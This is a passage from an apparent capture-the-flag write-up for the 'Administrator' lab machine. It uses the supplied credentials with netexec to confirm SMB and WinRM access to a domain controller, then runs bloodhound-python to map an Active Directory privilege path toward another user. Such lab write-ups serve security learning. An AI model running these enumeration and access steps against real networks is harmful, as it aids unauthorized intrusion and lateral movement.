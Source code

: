 ```console
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-11-16T04:41:08
|_  start_date: N/A
|_clock-skew: 7h00m02s
```

We are given a domain user account with the following credentials: `olivia:ichliebedich`. Further enumeration reveals that this account has the PSRemoting privilege set.

```console
$ nxc smb 10.10.11.42 -u 'olivia' -p 'ichliebedich'
SMB         10.10.11.42     445    DC               [+] administrator.htb\olivia:ichliebedich
$ nxc winrm 10.10.11.42 -u 'olivia' -p 'ichliebedich'
WINRM       10.10.11.42     5985   DC               [+] administrator.htb\olivia:ichliebedich (Pwn3d!)
```

We can either logon to the DC with Evil-WinRM and run SharpHound to collect information for BloodHound or run the BloodHound.py script.

```console
$ bloodhound-python -u 'olivia' -p 'ichliebedich' -ns 10.10.11.42 -d administrator.htb --zip -c All
INFO: Found AD domain: administrator.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.administrator.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.administrator.htb
INFO: Found 11 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.administrator.htb
INFO: Done in 00M 04S
INFO: Compressing output into 20241117135611_bloodhound.zip
```

We now start BloodHound CE and import the zip file. After looking through the data, we see that we have a path from `olivia` to `benjamin`. Now `benjamin` is a member of the Share Moderators group, so we might get more access after comprimising his account.

![](/assets/images/writeups/administrator/BH-path.png)

